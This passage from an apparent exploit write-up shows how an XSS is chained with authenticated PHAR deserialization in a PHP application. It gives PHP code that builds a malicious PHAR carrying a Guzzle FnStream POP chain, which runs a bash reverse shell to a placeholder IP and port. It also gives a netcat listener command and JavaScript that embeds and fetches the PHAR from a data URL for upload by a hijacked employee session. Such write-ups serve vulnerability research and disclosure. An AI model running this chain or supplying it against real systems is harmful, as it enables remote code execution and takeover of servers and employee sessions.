 The next PHP code is used to generate the PHAR archive with the POP chain

```php
namespace {
   # function to be executed and a parameter
   $function = 'exec';
   $parameter = 'echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" | bash';

   # phar instantiation
   $phar = new \Phar("rce.phar");
   $phar->startBuffering();
  
   $phar->setStub("<?php __HALT_COMPILER();");

   # object instantiation
   $fnstream = new \GuzzleHttp\Psr7\FnStream($function, $parameter);

   # set pop chain as metadata
   $phar->setMetadata($fnstream);

   # add content to the phar file
   $phar->addFromString("test.txt", "test");
  
   $phar->stopBuffering();
}
```

The goal of this document is to pop a reverse shell, so the system command to be executed requires the IP and PORT of the listener machine.

```sh
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" | bash
```

The attacker must start a netcat server that listens on that port.

```sh
nc -lp <PORT>
```  
  

# Putting it all together

As presented at the begining of the document, the exposed xss is used to hijack an employee session and exploit the authenticated phar deserialization. That said, the XSS must:

* Contain the crafted PHAR archive or download it from the network
* Upload it as digital content and obtain the complete path
* Perform a request to the endpoint that causes the PHAR deserialization and triggers the POP chain

A way to include the PHAR in the javascript exploit is encoding it as base64 and define it as an url using the data scheme, then perform a request to it to obtain the blob (binary object).

```javascript
let phar_url = 'data:application/octet-stream;base64,<base64 encoded phar>';
let fetch_rce = await fetch(phar_url, {method: 'GET', responseType: 'blob'});
let phar = await fetch_rce.blob();
```
